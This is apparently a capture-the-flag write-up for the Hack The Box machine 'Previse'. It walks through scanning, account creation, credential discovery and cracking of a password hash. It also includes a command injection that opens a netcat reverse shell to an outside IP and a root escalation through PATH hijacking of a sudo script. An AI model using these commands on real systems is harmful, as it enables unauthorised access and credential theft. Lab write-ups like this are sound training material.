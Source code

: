 # Previse

**Note**: this write-up is quite short and concise as it's based on really brief notes that were taken just for convenience during the pwning of the machine. 

## Enumeration

As usual we start by performing a port scan with nmap

```
nmap -A 10.10.11.104 -p- | tee portscan.txt

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 19:22 EDT
Nmap scan report for previse.htb (10.10.11.104)
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.89 seconds

```

We start with some enumeration on the http service using gobuster
```sh
gobuster dir -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://previse.htb
```
It shows some interesting files. Requesting the 200's in the browser does not seem to bring anything, so let's
examine the http reponses in Burp

nav.php looks interesting and reveals further interesting pages

               <a href="accounts.php">ACCOUNTS</a>

                        <li><a href="accounts.php">CREATE ACCOUNT</a></li>

            <li><a href="files.php">FILES</a></li>
                <a href="status.php">MANAGEMENT MENU</a>

                        <li><a href="file_logs.php">LOG DATA</a>

It seems like the accounts.php could be used to create another account

## Foothold
We find out that sernames and passwords must be between 5 and 32 characters

files.php is also interesting, as it shows a list of all the files uploaded on the site.

It shows a zip file uploaded by newguy, but it is not downloadable as we're not logged in


We can craft a sign-up post request from accounts.php, create our account and log in

From here, we can download the site backup

Browsing throuhg the site source we find sql creds

From the file_logs.php page, we can get a list of all the users that have downloaded files from the server.
The list includes other files beyond the site backup, but they seem not to be downloadable by just changing the GET parameter from the downloads.php page.

From the login.php file we notice that every password is hashed using the same salt

In logs.php there is a comment that says that parsing is done via a Python script called with exec(), which appears to be injectable

It is in fact injectable and from Burp we can inject a netcat reverse shell by appending

```sh
nc -e /bin/bash 10.0.0.1 4242
```
in the POST parameter

Once on the server, can improve our shell with 
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

The user is `m4lwhere`
We cannot simply `su` to the user, so we have to find another way.

Remember that we have root credentials for MySQL, so let's try that path.
```sh
mysql -u root -p 
```
with the password found in config.php

and we successfully access the db

```
SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | ooooo    | $1$🧂llol$zxN7/tbhdxnZK4XUb2i1h1 | 2021-10-30 18:07:28 |
|  3 | NAPOO    | $1$🧂llol$vMzw8Wgsgt1kSUp61WJ1V/ | 2021-10-30 18:09:20 |
|  4 | 12345    | $1$🧂llol$eBQMPwAvz9j9ZpK62qDI// | 2021-10-30 18:16:16 |
|  5 | penr0se1 | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2021-10-30 18:18:06 |
|  6 | penr0se  | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2021-10-30 18:18:51 |
+----+----------+------------------------------------+---------------------+
```

Let's try to crack the hash for m4lwhere
```sh
hashcat -a 0 -m 500 m4lwhere.hash ~/wordlists/rockyou.txt
```
And the password is

`$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!`

Now we can ssh into the machine as m4lwhere

## Privesc
We run linpeas.sh but nothing interesting shows up

If we run `sudo -l` we get
```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Let's check out the content of the script

gzip is being called with a relative path, so we can exploit that

Let's create a script called gzip in our pwd which will give us a shell

```sh
/bin/bash -i >&2
```

Now we add our pwd to the PATH env var with
```sh
export PATH=.:$PATH
```

and calling the access_backup.sh script with sudo will give us a root shell
